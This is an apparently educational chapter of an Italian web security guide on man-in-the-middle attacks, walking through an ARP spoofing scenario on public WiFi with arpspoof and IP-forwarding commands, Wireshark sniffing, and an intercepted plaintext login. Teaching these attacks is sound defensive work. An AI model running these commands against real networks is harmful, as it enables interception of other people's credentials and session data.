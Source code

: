 # 16. Man-in-the-Middle (MITM) Attacks

## 16.1 Introduzione

**MITM** (Man-in-the-Middle) è un attacco dove l'attaccante si **interpone** tra client e server, **intercettando** e potenzialmente **modificando** la comunicazione.

**Impatto:**
- 🔴 Intercettazione credenziali (username/password)
- 🔴 Furto session cookie
- 🔴 Intercettazione dati sensibili
- 🔴 Modifica richieste/risposte
- 🔴 Injection di malware

## 16.2 Scenari di Attacco

### 16.2.1 - WiFi Pubblico (ARP Spoofing)

**Scenario tipico:**
```
Cliente WiFi Café
    ↓
Laptop vittima (192.168.1.10)
    ↓
Attaccante (192.168.1.50) ← Intercetta tutto il traffico
    ↓
Router WiFi (192.168.1.1)
    ↓
Internet
```

**ARP Spoofing attack:**
```bash
# Attaccante esegue:

# 1. Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# 2. ARP spoofing (Ettercap/arpspoof)
arpspoof -i wlan0 -t 192.168.1.10 192.168.1.1  # Vittima
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.10  # Router

# 3. Sniff traffico
wireshark -i wlan0

# Vittima pensa di comunicare con router
# In realtà tutto passa per attaccante!
```

**Traffico HTTP intercettato:**
```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=mario&password=secret123

← Attaccante vede username e password in chiaro!
```

